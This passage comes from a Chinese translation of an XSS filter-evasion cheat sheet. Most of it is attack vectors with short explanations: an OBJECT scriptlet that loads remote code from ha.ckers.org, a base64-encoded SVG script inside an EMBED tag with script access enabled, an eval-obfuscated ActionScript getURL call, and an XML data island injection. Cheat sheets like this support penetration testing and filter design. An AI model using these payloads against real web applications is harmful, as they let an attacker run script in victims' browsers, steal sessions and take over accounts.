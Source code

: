 ```
<OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>

```

* * *

使用一个你可以载入包含有xss代码的flash文件的 EMBED 标签
-----------------------------------

点击这个demo，如果你加入属性allowScriptAccess="never" and allownetworking="internal"他可以缓解这个风险（谢谢Jonathan Vanasco 的这个信息）

```
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>

```

* * *

使用在flash中的ActionScript可以混淆你的xss向量
---------------------------------

```
a="get";
b="URL(\"";
c="javascript:";
d="alert('XSS');\")";
eval(a+b+c+d);

```

* * *

CDATA混淆的 XML数据岛
---------------

这个xss向量尽可以在IE 和使用了ie渲染引擎的 Netscape 8.1 下工作。它是 Sec Consult在审计雅虎时发现。

```
<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>

```

* * *

使用XML数据岛生成含有javascript代码的当前域xml文件
---------------------------------

它是相同的同上面仅仅代替XML文件为当前域文件。你可以看到结果在下面。

* * *

HTML+TIME 在XML中
---------------
